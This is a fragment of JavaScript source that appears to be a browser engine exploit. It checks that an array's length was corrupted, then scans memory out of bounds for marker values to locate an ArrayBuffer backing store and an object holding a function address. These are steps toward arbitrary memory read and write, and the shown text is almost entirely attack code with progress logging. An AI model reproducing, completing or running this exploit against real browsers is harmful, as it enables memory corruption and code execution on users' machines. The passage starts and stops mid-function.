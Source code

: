 ```

    opt_me(-0);
    var optObj = {
        flag: 0x266,
        funcAddr: opt_me
    };

    log("[+] big_arr.length: " + big_arr.length);

    if (big_arr.length != 282) {
        log("[-] Can not modify big_arr length !");
        return;
    }
    var backing_store_idx = -1;
    var backing_store_in_hign_mem = false;
    var OptObj_idx = -1;
    var OptObj_idx_in_hign_mem = false;

    for (let a = 0; a < 0x100; a++) {
        if (backing_store_idx == -1) {
            if (f2u(big_arr[a])[0] == 0x466) {
                backing_store_in_hign_mem = true;
                backing_store_idx = a;
            } else if (f2u(big_arr[a])[1] == 0x466) {
                backing_store_in_hign_mem = false;
                backing_store_idx = a + 1;
            }
        }

        else if (OptObj_idx == -1) {
            if (f2u(big_arr[a])[0] == 0x4cc) {
                OptObj_idx_in_hign_mem = true;
                OptObj_idx = a;
            } else if (f2u(big_arr[a])[1] == 0x4cc) {
                OptObj_idx_in_hign_mem = false;
                OptObj_idx = a + 1;
            }
        }

    }

    if (backing_store_idx == -1) {
        log("[-] Can not find backing store !");
        return;
    } else
        log("[+] backing store idx: " + backing_store_idx +
            ", in " + (backing_store_in_hign_mem ? "high" : "low") + " place.");

    if (OptObj_idx == -1) {
        log("[-] Can not find Opt Obj !");
        return;
    } else
        log("[+] OptObj idx: " + OptObj_idx +
            ", in " + (OptObj_idx_in_hign_mem ? "high" : "low") + " place.");

    var backing_store = (backing_store_in_hign_mem ?
        f2u(big_arr[backing_store_idx])[1] :
        f2u(big_arr[backing_store_idx])[0]);
    log("[+] Origin backing store: " + hex(backing_store));

    var dataNearBS = (!backing_store_in_hign_mem ?
        f2u(big_arr[backing_store_idx])[1] :
        f2u(big_arr[backing_store_idx])[0]);
```